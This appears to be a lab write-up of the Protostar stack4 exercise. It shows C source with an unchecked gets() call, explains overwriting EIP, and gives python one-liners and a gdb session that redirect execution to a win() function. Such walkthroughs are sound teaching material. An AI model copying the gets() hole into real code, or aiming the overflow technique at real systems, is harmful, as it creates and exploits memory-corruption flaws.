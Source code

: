 {{< highlight C >}}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
{{< / highlight >}}

Things are different here. We no longer have a variable on the stack that we
can overwrite, instead we need to overwrite EIP directly. EIP is the instruction
pointer and points to the location of the next instruction that needs to be
executed. So we need to overwrite it with the address of the `win` function. Doing
what we did above, we determine `win`'s address to be: `080483f4`.

We don't know how much we need to overflow `buffer` by in order to write into EIP,
so let's experiment. Normally I'd use a pattern like that from metasploit or my
[generator](https://github.com/Svenito/exploit-pattern), but we're limited to
what's on the box, so we'll need to do a little leg work. First I'm going to 
overflow the buffer and then pass a repeating sequence of 4 values to see if that
overwrites EIP.

{{< highlight console >}}
protostar:/opt/protostar/bin$ python -c 'print "a"*64+"\x01\x02\x03\x04"*20' > /tmp/stack4data
protostar:/opt/protostar/bin$ gdb ./stack4
(gdb) r < /tmp/stack4data
Starting program: /opt/protostar/bin/stack4 < /tmp/stack4data

Program received a signal SIGSEV, Segmentation fault.
0x04030201 in ?? ()
{{< / highlight >}}

That will do. We can cleanly set EIP as we need. All we need to do is change the payload

{{< highlight console >}}
protostar:/opt/protostar/bin$ python -c 'print "a"*64+"\xf4\x83\x04\x08"*20' > /tmp/stack4data
protostar:/opt/protostar/bin$ ./stack4 < /tmp/stack4data
code flow successfully changed
code flow successfully changed
code flow successfully changed
code flow successfully changed
code flow successfully changed
code flow successfully changed
code flow successfully changed
code flow successfully changed
code flow successfully changed
Illegal instruction
{{< / highlight >}}
